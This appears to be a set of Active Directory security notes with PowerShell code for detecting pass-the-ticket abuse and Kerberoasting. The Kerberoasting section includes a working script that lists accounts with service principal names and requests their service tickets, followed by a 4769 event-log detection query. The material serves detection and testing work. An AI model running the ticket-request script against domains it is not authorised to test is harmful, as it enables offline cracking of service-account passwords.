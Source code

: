 ### Detect abuse of Kerberos Ticket (Endpoint method)
- Get-SessionUsers function
```
Function Get-SessionUsers {
    Begin {
        $Sessions = @()
        $Klist = klist sessions
    }
    Process {
        $Sessions = $Klist | Where-Object { $_ -like "*Session*$env:USERDOMAIN*" } | ForEach-Object { 
            [PSCustomObject]@{'LogonId' = $(($_ -split ' ')[3]).substring(2); 'User' = $($_ -split ' ')[4]}
        }
    }
    End {
        return $Sessions
    }
}
```
- Grab . .\Invoke-PTTSweep.ps1
- Detection 
```
Get-SessionUsers | Invoke-PTTSweep
```
## Kerberoasting: request and detect 
- Request TGS
```
$Searcher = New-Object System.DirectoryServices.DirectorySearcher
$Searcher.PropertiesToLoad.Add("sAMAccountName") | Out-Null
$Searcher.PropertiesToLoad.Add("servicePrincipalName") | Out-Null
$Searcher.PageSize = 1000

$Searcher.Filter = "(&(objectCategory=person)(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=2)(ServicePrincipalName=*))"

$SPN = $Searcher.FindAll() | Select Path, @{l='SPN'; e={$_.Properties.serviceprincipalname}}

foreach($spn in $SPN)
{
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $spn.SPN
}
```
- Detect
```
<QueryList>
  <Query Id="0" Path="Security">
    <Select Path="Security">
     *[System[(EventID=4769)]] 
     and
     *[EventData[Data[@Name='TicketEncryptionType'] and (Data='0x17' or Data='0x18')]]
   </Select>
  </Query>
</QueryList>
```
